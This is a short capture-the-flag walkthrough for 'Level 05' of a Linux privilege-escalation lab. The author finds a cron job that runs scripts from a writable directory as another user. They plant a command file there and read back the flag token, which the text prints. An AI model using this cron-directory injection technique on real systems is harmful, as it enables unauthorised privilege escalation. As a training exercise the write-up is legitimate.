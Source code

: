 ## Level 05

Same than level00,we don't have anything in the current path

So i've used the same strategy

                    find -O3 / -user "flag05" 2>/dev/null

I've found something in /usr/sbin/openarenaserver
it's a bash script that search i in /opt/openarenaserver

let's create a fille i in /opt/openarenaserver that contains getflag


```echo "getflag > /tmp/flag" > /opt/openarenaserver/i```

```sh /usr/sbin/opnarenaserver ```

Nope, incorrect flag

in /var/mail/level05, we have a crontab script:
-   */2 * * * * su -c "sh /usr/sbin openarenaserver" - flag05
Every 2 min, it will launch this job in background with the user flag05. 
After doing my echo, i just have to wait until my file disapear and cat /tmp/flag 

Check flag.Here is your token : viuaaale9huek52boumoomioc
